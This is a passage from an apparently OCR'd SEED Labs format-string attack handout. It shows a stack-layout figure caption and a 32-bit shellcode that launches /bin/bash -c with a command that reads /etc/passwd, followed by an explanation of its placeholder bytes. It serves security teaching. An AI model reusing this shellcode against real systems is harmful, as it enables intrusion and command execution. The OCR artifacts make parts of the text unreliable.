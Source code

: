 ```
1
```
```
2
```
```
3
```
```
buf[1500]
```
```
Input provided by remote users 
will be stored here.
```
```
Higher Address
```
```
Lower Address
```
```
Figure 1: The stack layout whenprintf()is invoked from inside of themyprintf()function.
```
shellcode, without explaining how it works, because it is non-trivial. If you are interested in how exactly
shellcode works, and want to write a shellcode from scratch, you can learn that from a separate SEED lab
calledShellcode Lab. Our generic shellcode is listed in the following (we only list the 32-bit version):

shellcode = (
"\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
"\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
"\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
"/bin/bash*"
"-c*" À
"/bin/ls -l; echo Hello; /bin/tail -n 2 /etc/passwd *" Ã
# The * in this line serves as the position marker *
"AAAA" # Placeholder for argv[0] --> "/bin/bash"
"BBBB" # Placeholder for argv[1] --> "-c"
"CCCC" # Placeholder for argv[2] --> the command string
"DDDD" # Placeholder for argv[3] --> NULL
).encode(’latin-1’)

The shellcode runs the"/bin/bash"shell program (Line ), but it is given two arguments,"-c"
(LineÀ) and a command string (LineÃ). This indicates that the shell program will run the commands in the
second argument. The*at the end of these strings is only a placeholder, and it will be replaced by one byte
of0x00during the execution of the shellcode. Each string needs to have a zero at the end, but we cannot
put zeros in the shellcode. Instead, we put a placeholder at the end of each string, and then dynamically put
a zero in the placeholder during the execution.
If we want the shellcode to run some other commands, we just need to modify the command string
in LineÃ. However, when making changes, we need to make sure not to change the length of this string,
because the starting position of the placeholder for theargv[]array, which is right after the command
